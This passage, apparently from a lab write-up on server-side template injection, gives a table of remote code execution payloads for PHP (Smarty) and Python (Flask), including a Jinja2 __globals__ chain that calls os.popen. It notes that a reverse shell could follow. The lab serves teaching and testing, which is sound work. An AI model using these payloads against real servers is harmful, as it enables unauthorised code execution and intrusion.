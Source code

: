 #### RCE Examples Table

| Technology  | Port  | Payload Sent                                                                            |
|:-----------:|------|--------------------------------------------------------------------------------------------|
| PHP         |  80  | `{exec("whoami")}`                                                                         |
| Node.js     | 3000 | ?                                                                                          |
| Python      | 5000 | `{{request.application.__globals__.__builtins__.__import__('os').popen('whoami').read()}}` |

With PHP (Smarty) and Python (Flask), achieving RCE was straightforward, but with Node.js and EJS, I was unable to execute it.

From this point, a reverse shell or any other command could be executed on the server.

I hope this lab and article help someone learn more about SSTI and template engine technologies.
